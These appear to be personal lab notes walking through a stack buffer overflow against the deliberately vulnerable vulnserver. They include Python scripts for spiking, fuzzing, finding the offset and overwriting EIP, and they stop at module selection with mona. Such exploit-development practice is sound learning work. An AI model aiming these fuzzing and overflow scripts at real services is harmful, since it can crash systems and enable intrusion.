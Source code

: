 # 1. Setup
Downloads: 
1. Win 10 enterprise
2. vulnserver
3. immunity debugger

Install win10 on VM and install tools in it.
Run them as admin

# 2. Buffer overflow explained
![1d10de837890a4b198c36863d531a37b.png](../_resources/1d10de837890a4b198c36863d531a37b.png)
![6eb11c8dd0b176c916024687d7b4ae9e.png](../_resources/6eb11c8dd0b176c916024687d7b4ae9e.png)

- **overflow buffer space**
![2d11170cda68f5b7e443bc4bf6ba501e.png](../_resources/2d11170cda68f5b7e443bc4bf6ba501e.png)

- **steps to conduct buffer overflow**
![f6a5336189b44b7f4eed7043d8147073.png](../_resources/f6a5336189b44b7f4eed7043d8147073.png)

# 3. spiking
![fb2773462fe0a1d3041de842e25790b1.png](../_resources/fb2773462fe0a1d3041de842e25790b1.png)

Tool: `generic_send_tcp`

- Spike file![194a3635cdc8c2eb7a0412612c1082bf.png](../_resources/194a3635cdc8c2eb7a0412612c1082bf.png)
- Created spike file for all commands with py![33afe686cccd91e667f4de2936b30a33.png](../_resources/33afe686cccd91e667f4de2936b30a33.png) 
 ```python3
 #!/usr/bin/python3

cmds = ["STATS", "RTIME", "LTIME", "SRUN", "TRUN", "GMON", "GDOG",\
                "KSTET", "GTER", "HTER", "LTER", "KSTAN"]


for cmd in cmds:
        content = f's_readline();\ns_string("{cmd} ");\ns_string_variable("0");'
        with open(f'{cmd}.spk', 'w+') as w:
                w.write(content)
                print(f'created {cmd}.spk')
```

## Sending spike file with `generic_send_tcp`
![9bc2b62acca5337f14f0fccebf306aa9.png](../_resources/9bc2b62acca5337f14f0fccebf306aa9.png)

Buffer overflow caught as program crashed.
Commands: TRUN, GTER
![ef4dee9ec042c42c2c304588980b3f3e.png](../_resources/ef4dee9ec042c42c2c304588980b3f3e.png)

![df9a5ddfb3bbccf5322ade6276b1fd1f.png](../_resources/df9a5ddfb3bbccf5322ade6276b1fd1f.png)

Payload format: `<cmd> /.:/<Chars>`
![b0f407a5ae3a2df93c318338aed6990b.png](../_resources/b0f407a5ae3a2df93c318338aed6990b.png)

# 4. Fuzzing with python
Script:
```python3
#!/usr/bin/python3


import sys, socket, time


target = input("Enter target ip: ")
port = int(input("Enter port: "))
cmd = input("Enter command: ")

buffer = "A" * 100

while True:
        try:
                s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                s.connect((target, port))

                #sending payload for buffer overflow
                s.send((f"{cmd} /.:/{buffer}".encode()))
                print(f"Sent {len(buffer)} A's")
                s.close()

                time.sleep(1)
                buffer += "A" * 100

        except:
                print(f"Fuzzing crashed at {len(buffer)} bytes")
                sys.exit()
```

# 5. Finding the OFFSET

Script:
```python3
#!/usr/bin/python3


import sys, socket, time


target = input("Enter target ip: ")
port = int(input("Enter port: "))
cmd = input("Enter command: ")

offset = input("Enter offset: ")

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target, port))

#sending payload for buffer overflow
s.send((f"{cmd} /.:/{offset}".encode()))
s.close()
```

Generating char pattern from metasploit-framework of 200 bytes (for GTER) as it crashed in 200 and **sending** it to check for crash.

![2becaff3e56ea295252e8b617b3dc949.png](../_resources/2becaff3e56ea295252e8b617b3dc949.png)

![e058bcb2f96e654fefa71aae4f0f07c7.png](../_resources/e058bcb2f96e654fefa71aae4f0f07c7.png)

- GOT **EIP: 41396541**

## Now using pattern_offset.rb to get offset
![cc03f8816775bc415d9efe1e325c0463.png](../_resources/cc03f8816775bc415d9efe1e325c0463.png)

Got offset as 147.
Now sending exactly 147 A's to verify it.
![0bd2c67039b716203768d1fec7c6018a.png](../_resources/0bd2c67039b716203768d1fec7c6018a.png)
**AND IT CRASHED!**
![576cabcccf2ebb3c693e94749c77bdba.png](../_resources/576cabcccf2ebb3c693e94749c77bdba.png)

# 6. Overwriting EIP 
Script:
```python3
#!/usr/bin/python3


import sys, socket, time


target = input("Enter target ip: ")
port = int(input("Enter port: "))
cmd = input("Enter command: ")

shellcode = "A" * 147 + "B" * 4

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target, port))

#sending payload for buffer overflow
s.send((f"{cmd} /.:/{shellcode}".encode()))
s.close()
```
![e71e0d4ad0930349784e004e69d66b6f.png](../_resources/e71e0d4ad0930349784e004e69d66b6f.png)

**EIP: 42424242**

# 7. Finding bad characters
Tool: https://github.com/cytopia/badchars

![8c106b3463b5ae3d02409032ae9ae17e.png](../_resources/8c106b3463b5ae3d02409032ae9ae17e.png)
Bad chars are the first missing one's in consecutive.

# 8. Find right module
Looking for dlls, etc which have no memory protection.

Tool: https://www.github.com/corelan/mona
**PASTE mona.py in immunity pyCommands**
![8bfad7623115f6b8eabd7b026e4eff1a.png](../_resources/8bfad7623115f6b8eabd7b026e4eff1a.png)